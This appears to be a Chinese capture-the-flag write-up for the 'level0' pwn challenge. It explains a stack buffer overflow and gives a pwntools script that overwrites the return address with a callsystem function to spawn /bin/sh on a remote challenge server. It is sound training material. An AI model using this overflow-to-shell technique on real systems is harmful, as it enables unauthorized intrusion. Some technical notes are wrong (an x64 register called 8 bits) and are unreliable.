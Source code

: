 1、进入main函数，发现main函数中调用vulnerable_function()函数，该函数会返回read(0,&buf,0x200)，点击查看buf，发现该buffer的数据空间大小为0x80，而可以读取的0x200个字节，存在缓冲区溢出漏洞。可以溢出覆盖返回地址，溢出的大小为0x80加上8个字节。最后加上返回的地址的值即可。IDA中查找字符串，发现/bin/sh，查看交叉引用，找到函数callsystem。该函数直接调用system("/bin/sh")，可以直接在溢出后写入该函数的起始地址。
2、linux改名命令mv 源文件名 目标文件名
0、x64程序中，一个寄存器占8位
3、64位程序是寄存器传参，与32位不同，无法直接传入，64位程序先把参数传到寄存器，前6个参数存储在寄存器中，传递顺序rdi,rsi,rdx,rcx,r8,r9.（Linux系统中，Windows是rcx,rdx,r8,r9）
4、system存在系统最高权限，与/bin/sh连在一起就可以提供一个shell，可以使用它进行查看/修改/操作等动作。
5、IDA中从数据空间大小上可以看出有个s，代表ebp，栈底，占8字节长度，其次是个r，r中存放的是返回地址，代表eip。

writeup第4个不懂



# coding=utf-8
from pwn import *    #导入pwntools中pwn包的所有内容
p = remote('111.198.29.45',33907)    # 链接服务器远程交互
elf = ELF('./level0')    # 以ELF文件格式读取level0文件
sysaddr = elf.symbols['callsystem']    # 获取ELF文件中callsystem的地址
# 先用0x88个无用字符覆盖buf和push的内容，再覆盖返回地址
payload = 'a'*(0x80 + 8) + p64(sysaddr)   
p.recv()    #接收输出
p.send(payload)    # 发送payload
p.interactive()    # 反弹shell进行交互


wp:
1、使用ROPgadget --binary level0 --string '/bin/sh'可以得到字符串地址。
2、使用ROPgadget --binary level0 --only 'pop|ret'可以得到pop|ret的返回值
3、使用objdump -d level0 | grep "plt"可得到plt表的地址
